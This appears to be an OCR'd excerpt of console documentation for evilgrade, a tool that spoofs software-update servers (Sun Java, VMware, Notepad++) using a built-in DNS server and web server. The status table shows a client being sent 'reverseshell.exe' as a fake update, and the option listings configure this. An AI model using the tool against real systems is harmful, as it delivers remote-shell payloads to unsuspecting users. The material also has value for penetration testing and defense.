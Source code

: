 ``` console
.---------------------------------------------------------------------------------------------------------------.
| Client         | Module           | Status | Md5,Cmd,File                                                     |
+----------------+------------------+--------+------------------------------------------------------------------+
| 192.168.233.10 | modules::sunjava | send   | d9a28baa883ecf51e41fc626e1d4eed5,'',"./agent/reverseshell.exe"   |
'----------------+------------------+--------+------------------------------------------------------------------'

#######################################

show      - Display information of <object>.

#######################################

show active    - Display active modules in the webserver

#######################################

show modules    - Display implemented modules

#########################################

show options    - Display modules/global options

Example:
-------

evilgrade>show options

Display options:
===============

.-----------------------------------------------------------------------------------.
| Name        | Default   | Description                                             |
+-------------+-----------+---------------------------------------------------------+
| DNSEnable   |         1 | Enable DNS Server ( handle virtual request on modules ) |
| DNSAnswerIp | 127.0.0.1 | Resolve VHost to ip  )                                  |
| DNSPort     |        53 | Listen Name Server port                                 |
| debug       |         1 | Debug mode                                              |
| port        |        80 | Webserver listening port                                |
| sslport     |       443 | Webserver SSL listening port                            |
'-------------+-----------+---------------------------------------------------------'

evilgrade>
evilgrade(notepadplus)>conf vmware
evilgrade(vmware)>show options (without started services)

Display options:
===============

Name = VMware Server
Version = 1.0
Author = ["Francisco Amato < famato +[AT]+ infobytesec.com>"]
Description = ""
VirtualHost = "www.vmware.com"

.----------------------------------------------.
| Name   | Default           | Description     |
+--------+-------------------+-----------------+
| enable |                 1 | Status          |
```